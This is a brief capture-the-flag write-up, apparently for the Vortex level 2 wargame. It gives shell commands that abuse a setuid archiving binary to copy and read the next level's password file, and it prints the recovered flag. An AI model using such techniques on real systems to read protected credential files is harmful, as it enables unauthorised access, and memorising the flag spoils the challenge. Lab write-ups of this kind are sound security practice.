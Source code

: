 # Trick

```bash
mkdir /tmp/tmpV
cd /tmp/tmpV
/vortex/vortex2 /etc/vortex_pass/vortex3
tar xf /tmp/ownership.\$\$.tar etc/vortex_pass/vortex3
cat etc/vortex_pass/vortex3
```

# Flag

```
g3crKgtu7
```
